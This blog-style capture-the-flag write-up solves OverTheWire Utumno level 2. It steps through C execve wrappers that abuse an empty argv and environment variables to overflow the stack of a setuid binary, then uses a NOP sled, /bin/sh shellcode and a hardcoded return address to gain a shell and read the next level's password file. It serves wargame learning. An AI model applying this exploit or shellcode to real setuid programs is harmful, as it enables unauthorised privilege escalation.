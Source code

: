 ```yaml
---
layout: post
title: OverTheWire - Utumno2
---
```


Site: http://overthewire.org/wargames/utumno/ <br>
Level: 2<br>
Situation: ASM Reading Exercise<br><br>

SideNote: This write up is condensed there was a lot of small repetitive steps that had been done in previous examples and explained.

As we usually do we are going to create a temp directory for our use. Then we are going to get the file archtype and the basic output.

{% highlight bash %}
utumno2@melinda:~$ mkdir /tmp/ut2
utumno2@melinda:~$ cd /tmp/ut2
utumno2@melinda:/tmp/ut2$ 
{% endhighlight %}

{% highlight bash %}
utumno2@melinda:/tmp/ut2$ file /utumno/utumno2
/utumno/utumno2: setuid ELF 32-bit LSB  executable, Intel 80386, version 1 (SYSV), 
dynamically linked (uses shared libs), for GNU/Linux 2.6.24, 
BuildID[sha1]=8557fab8b28ac610dff835c3fbfa7b02bd54a2de, not stripped
{% endhighlight %}

{% highlight bash %}
utumno2@melinda:/tmp/ut2$ /utumno/utumno2
Aw..
{% endhighlight %}

The usual nothing to explanatory. Let’s go ahead and ltrace.

{% highlight bash %}
utumno2@melinda:/tmp/ut2$ ltrace /utumno/utumno2
__libc_start_main(0x804845d, 1, 0xffffd794, 0x80484b0 <unfinished ...>
puts("Aw.."Aw..
)                                     = 5
exit(1 <no return ...>
+++ exited (status 1) +++
{% endhighlight %}

Nothing again. If we pass an argument to it we get the same issue.

{% highlight bash %}
utumno2@melinda:/tmp/ut2$ ltrace /utumno/utumno2 asdf
__libc_start_main(0x804845d, 1, 0xffffd794, 0x80484b0 <unfinished ...>
puts("Aw.."Aw..
)                                     = 5
exit(1 <no return ...>
+++ exited (status 1) +++
{% endhighlight %}

We open in it in our disassembler and get a control flow graph to see what is going on.

![Embeded](/images/utumno/utumno2/callgraph1.png)
[FullSize](/images/utumno/utumno2/callgraph1.png)

Short and easy to understand lets go ahead and mark it up.

![Embeded](/images/utumno/utumno2/callgraph2.png)
[FullSize](/images/utumno/utumno2/callgraph2.png)

Simple enough to understand. We know in order to get past the "AW" message we have to get past the argc check. By default all c applications get passed in their name in argv[0] which means argc is going to at least contain 1. So in order to do this we need to execute the application from another application that allows us to control the arguments going into the application.

We can use execve to do this. The definition of execve:

int execve(const char *filename, char *const argv[], char *const envp[]);

So our code will start as the following.

{% highlight c %}
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main(int argc, char **argv) {

    char *arg[] = { 0x0 };
    char *envp[] = { };
    execve("/utumno/utumno2", arg, envp);
    perror("execve");
    exit(1);
}

{% endhighlight %}

When we run this and we get past the initial block. But takes us into a segfault. For ease of use we are going to upload our invoker.sh script that we previously used. For debugging. Looking at the ASM we know that it is trying to access the address of argv[1] however we are passing in 0 arguments to get past the first check. Looking at execve we are giving a third parameter to pass in environment variables. Now let’s look at our stack to see the position of these variables.

![Embeded](/images/utumno/utumno2/stack.png)

[FullSize](/images/utumno/utumno2/stack.png) [Source](http://www.dreamincode.net/forums/topic/285550-nasm-linux-getting-command-line-parameters/)

We can push a specific amount of environmental variables to make our argv[1] point to one of our environmental variables.

{% highlight bash %}
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main(int argc, char **argv) {

    char *arg[] = { 0x0 };
    char *envp[] = {  "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
    AAAAAAAAAAAAA" };
    execve("/utumno/utumno2", arg, envp);
    perror("execve");
    exit(1);
}
{% endhighlight %}

The first one didn't work so we change to the second variable.

{% highlight bash %}
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main(int argc, char **argv) {

    char *arg[] = { 0x0 };
    char *envp[] = { "", "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
    AAAAAAAAAAAAA" };
    execve("/utumno/utumno2", arg, envp);
    perror("execve");
    exit(1);
}
{% endhighlight %}

Each step of the way using our invoker shell to check GDB to see if we are affecting the EIP in anyway. We continue down the line till we hit a crash when using our "A"'s indicated we are controlling EIP.

The magic number is 9 in this case. Then turns our code into.

{% highlight bash %}
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main(int argc, char **argv) {

    char *arg[] = { 0x0 };
    char *envp[] = {
     	"",
	"",
	"",
	"",
	"",
	"",
	"",
	"",
	"",
	"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA",
	NULL
    };
    execve("/utumno/utumno2", arg, envp);
    perror("execve");
    exit(1);
}
{% endhighlight %}

At this point it turns into a simple stack overflow.

To find the exact length required we utilize metasploit's pattern_create.rb and pattern_offset.rb tool. Which returns that our number is 24. We know that we are able to store shell code and a nopsled in it. However when we attempted to find the nopseld we were unable to find a matched pattern.

To overcome this we utilize the environmental variable before the A's to store our nopseld and shell code. We reuse our 21 byte bin/sh shell code.

{% highlight bash %}
\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80
{% endhighlight %}

We also add a fair bit of nops in front of it turning our code into the following.

{% highlight c %}
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main(int argc, char **argv) {

    char *arg[] = { 0x0 };
    char *envp[] = { 
     	"",
	"",
	"",
	"",
	"",
	"",
	"",
	"",
	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90
         \x90\x90\x90\x90\x90\x90\x90\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f
        \x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80",
	"AAAAAAAAAAAAAAAAAAAAAAAAAAAA",
	NULL


    };
    execve("/utumno/utumno2", arg, envp);
    perror("execve");
    exit(1);
}

{% endhighlight %}

Finally we just need to find the address of our nopseld using the command "find $esp, $esp+400, 0x90909090" in GDB. Giving us the address 0xffffdf9d. We add the address to the new code.

{% highlight c %}
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main(int argc, char **argv) {

    char *arg[] = { 0x0 };
    char *envp[] = { 
     	"",
	"",
	"",
	"",
	"",
	"",
	"",
	"",
	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90
         \x90\x90\x90\x90\x90\x90\x90\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f
        \x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80",
	"AAAAAAAAAAAAAAAAAAAAAAAA\x9d\xdf\xff\xff",
	NULL


    };
    execve("/utumno/utumno2", arg, envp);
    perror("execve");
    exit(1);
}

{% endhighlight %}

We run it in userspace and we get the following.

{% highlight bash %}
utumno2@melinda:/tmp/ut2$ ./a.out 
$ whoami
utumno3
$ cat /etc/utumno_pass/utumno3
[OMITTED]
{% endhighlight %}

There is our password.